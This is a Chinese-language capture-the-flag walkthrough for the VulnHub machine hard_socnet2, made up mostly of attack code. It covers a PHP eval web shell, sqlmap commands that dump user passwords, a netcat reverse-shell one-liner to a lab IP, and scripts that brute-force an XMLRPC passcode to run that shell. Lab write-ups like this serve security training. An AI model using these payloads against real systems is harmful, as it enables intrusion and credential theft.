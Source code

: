 > 靶机环境介绍
+ [hard_socnet2](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/) 
+ 难度等级 <font color=red>高</font>

目标: 取得root权限

**所用技术栈：**
+ 主机发现
+ 端口扫描
+ SQL注入
+ 文件上传
+ 蚁剑上线
+ **XMLRPC命令执行**
+ 逆向工程
+ 动态调试
+ 漏洞利用代码编写



我们进行 `OPTIONS`,`DELETE`,`POST`,`GET`,`PUT` 等一系列方式对服务器进行请求

这个时候我们可以去访问其 80 端口


+ [AntSword Shell Script](https://github.com/AntSwordProject/AwesomeScript) 
+ [Many Demo Shell Download](https://privdayz.com/)


```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

```bash
sqlmap -r req -p query --dbs

sqlmap -r req -p query -D socialnetwork --tables

sqlmap -r req -p query -D socialnetwork -T users --columns

sqlmap -r req -p query -D socialnetwork -T users -C user_password,user_email --dump

```


[CVE-2021-3493 漏洞利用代码](https://github.com/briskets/CVE-2021-3493) 
```bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 3333 >/tmp/f

```

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
<++>
而这个漏洞是在最近 也就是 2021 年才发现的，而这台靶机却是 2018 年就发布了，也就是说在当时并不知道这个漏洞,所以在这台靶机上一定还有另外的提权方式

```python
#my remote server management API
import SimpleXMLRPCServer
import subprocess
import random

debugging_pass = random.randint(1000,9999)

def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output

def cpu():
    return runcmd("cat /proc/cpuinfo")

def mem():
    return runcmd("free -m")

def disk():
    return runcmd("df -h")

def net():
    return runcmd("ip a")

def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."

server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)

server.serve_forever()

```

所以我们就可以去网上搜索一下关于 XMLRPC 相关的内容

发现我们可以通过远程的方式执行目标靶机上的命令

通过审计 我们可以编写一下 exp 来利用这个漏洞

```python
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://10.0.2.8:8000/") as proxy:
	for i in range(1000,10000):
		if str(proxy.secure_cmd("ls",i)) != "Wrong passcode.":
			print("The passwd is {}".format(i))
		else:
			pass
	
```

```python
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://10.0.2.8:8000/") as proxy:
    cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 4444 >/tmp/f"
    res = str(proxy.secure_cmd(cmd,5784))
    print(res)


```




